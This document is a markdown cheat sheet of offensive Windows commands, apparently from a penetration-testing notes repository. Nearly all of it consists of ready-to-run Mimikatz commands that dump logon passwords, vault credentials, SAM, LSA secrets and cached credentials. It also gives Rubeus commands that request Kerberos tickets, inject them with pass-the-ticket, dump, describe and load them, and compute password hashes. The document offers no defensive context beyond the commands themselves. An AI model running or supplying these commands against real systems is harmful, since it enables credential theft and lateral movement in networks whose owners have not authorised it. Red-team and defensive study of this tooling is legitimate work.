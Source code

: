 #### Mimikatz dump vault
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "vault::list"'
```

#### Mimikatz dump all to find privs
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets /export" "kerberos::list /export" "vault::cred /patch" "vault::list" "lsadump::sam" "lsadump::secrets" "lsadump::cache"'
```

## Rubeus
#### Request TGT
- Use `/outfile:` to save to file.
- Use `/nowrap` for easier copying of ticket
- use `/ptt` to inject in current session
```
.\Rubeus.exe asktgt /user:<USER> /password:<PASSWORD> /domain:<DOMAIN> /ptt
.\Rubeus.exe asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /ptt
```

#### Request TGS
```
.\Rubeus.exe asktgs /user:<USER> /ticket:<BASE64 TGT> /service:<CIFS>/<FQDN> /ptt
.\Rubeus.exe asktgs /user:<USER> /ticket:<TGT FILE KIRBI> /service:<CIFS>/<FQDN> /ptt
```

#### Dump tickets
```
./Rubeus.exe triage
./Rubeus.exe dump /luid:<ID> /service:<SERVICE> /nowrap
```

#### Save ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```

#### Get info on ticket
```
./Rubeus.exe describe /ticket:<TICKET FILE>
```

#### Load Ticket into memory
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```

#### Calc hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

